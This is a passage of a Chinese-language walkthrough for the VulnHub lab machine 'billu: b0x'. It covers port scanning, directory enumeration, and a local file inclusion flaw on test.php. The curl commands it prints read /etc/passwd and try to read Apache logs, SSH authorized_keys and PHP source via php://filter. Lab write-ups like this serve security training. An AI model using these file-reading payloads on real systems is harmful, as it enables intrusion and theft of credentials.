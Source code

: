 # billu: b0x

2024-6-5 https://www.vulnhub.com/entry/billu-b0x,188/

difficulty: medium

## IP

192.168.10.192

## Scan

Open Port -> 22,80

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 facfa252c4faf575a7e2bd60833e7bde (DSA)
|   2048 88310c789880ef33fa2622edd09bbaf8 (RSA)
|_  256 0e5e330350c91eb3e75139a44a1064ca (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: --==[[IndiShell Lab]]==--
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
```

直接看 80 web 服务，http://192.168.10.192/ 主页是个登陆页面，尝试 sql 注入测试，没发现有。

先用 gobuster 扫描看看：

```
http://192.168.10.192/images               (Status: 301) [Size: 317] [--> http://192.168.10.192/images/]
http://192.168.10.192/c                    (Status: 200) [Size: 1]
http://192.168.10.192/c.php                (Status: 200) [Size: 1]
http://192.168.10.192/in.php               (Status: 200) [Size: 47528]
http://192.168.10.192/in                   (Status: 200) [Size: 47524]
http://192.168.10.192/show.php             (Status: 200) [Size: 1]
http://192.168.10.192/show                 (Status: 200) [Size: 1]
http://192.168.10.192/add.php              (Status: 200) [Size: 307]
http://192.168.10.192/add                  (Status: 200) [Size: 307]
http://192.168.10.192/test.php             (Status: 200) [Size: 72]
http://192.168.10.192/test                 (Status: 200) [Size: 72]
http://192.168.10.192/index                (Status: 200) [Size: 3267]
http://192.168.10.192/index.php            (Status: 200) [Size: 3267]
http://192.168.10.192/head.php             (Status: 200) [Size: 2793]
http://192.168.10.192/head                 (Status: 200) [Size: 2793]
http://192.168.10.192/uploaded_images      (Status: 301) [Size: 326] [--> http://192.168.10.192/uploaded_images/]
http://192.168.10.192/panel                (Status: 302) [Size: 2469] [--> index.php]
http://192.168.10.192/panel.php            (Status: 302) [Size: 2469] [--> index.php]
http://192.168.10.192/head2.php            (Status: 200) [Size: 2468]
http://192.168.10.192/head2                (Status: 200) [Size: 2468]
```

扫出的目录较多。

http://192.168.10.192/in.php 是 phpinfo 页面。

http://192.168.10.192/add.php 是一个文件上传页面，尝试上传 webshell ，但是没看到回显地址。

http://192.168.10.192/test.php 提示 'file' parameter is empty. Please provide file path in 'file' parameter，这里可能存在 LFI，进行尝试，get 方式不行，使用 POST 可以看到 /etc/passwd 的文件内容：

```
curl --data-urlencode 'file=/etc/passwd' http://192.168.10.192/test.php

root:x:0:0:root:/root:/bin/bash
...
ica:x:1000:1000:ica,,,:/home/ica:/bin/bash
```

其他的几个扫描出的链接，都没看到可利用点，看看上面的 LFI 能否读取到 apache2 的日志文件：

```
curl --data-urlencode 'file=/var/log/apache2/access.log' http://192.168.10.192/test.php

curl --data-urlencode 'file=/home/ica/.ssh/authorized_keys' http://192.168.10.192/test.php

curl --data-urlencode 'file=php://filter/read=convert.base64-encode/resource=/var/www/html/index.php' http://192.168.10.192/test.php
```
